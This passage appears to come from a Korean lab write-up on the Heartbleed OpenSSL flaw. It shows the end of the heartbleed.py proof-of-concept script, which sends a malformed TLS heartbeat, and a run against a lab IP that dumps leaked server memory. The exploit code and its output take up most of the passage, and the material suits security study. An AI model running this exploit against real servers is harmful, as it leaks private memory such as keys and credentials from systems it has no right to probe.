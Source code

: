 ```python
                print 'WARNING: server returned more data than it should - server is vulnerable!'
            else:
                print 'Server processed malformed heartbeat, but did not return any extra data.'
            return True

        if typ == 21:
            print 'Received alert:'
            hexdump(pay)
            print 'Server returned error, likely not vulnerable'
            return False

def main():
    opts, args = options.parse_args()
    if len(args) < 1:
        options.print_help()
        return

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    print 'Connecting...'
    sys.stdout.flush()
    s.connect((args[0], opts.port))
    print 'Sending Client Hello...'
    sys.stdout.flush()
    s.send(hello)
    print 'Waiting for Server Hello...'
    sys.stdout.flush()
    while True:
        typ, ver, pay = recvmsg(s)
        if typ == None:
            print 'Server closed connection without sending Server Hello.'
            return
        # Look for server hello done message.
        if typ == 22 and ord(pay[0]) == 0x0E:
            break

    print 'Sending heartbeat request...'
    sys.stdout.flush()
    s.send(hb)
    hit_hb(s)

if __name__ == '__main__':
    main()
```

* [코드 분석 참고 사이트](https://jmoon.co.kr/164)

---

### heartbleed.py  실행

```bash
root@ming:~/바탕화면# python heartbleed.py -p 8443 192.168.190.143
Connecting...
Sending Client Hello...
Waiting for Server Hello...
 ... received message: type = 22, ver = 0302, length = 66
 ... received message: type = 22, ver = 0302, length = 675
 ... received message: type = 22, ver = 0302, length = 203
 ... received message: type = 22, ver = 0302, length = 4
Sending heartbeat request...
 ... received message: type = 24, ver = 0302, length = 16384
Received heartbeat response:
  0000: 02 40 00 D8 03 02 53 43 5B 90 9D 9B 72 0B BC 0C  .@....SC[...r...
  0010: BC 2B 92 A8 48 97 CF BD 39 04 CC 16 0A 85 03 90  .+..H...9.......
```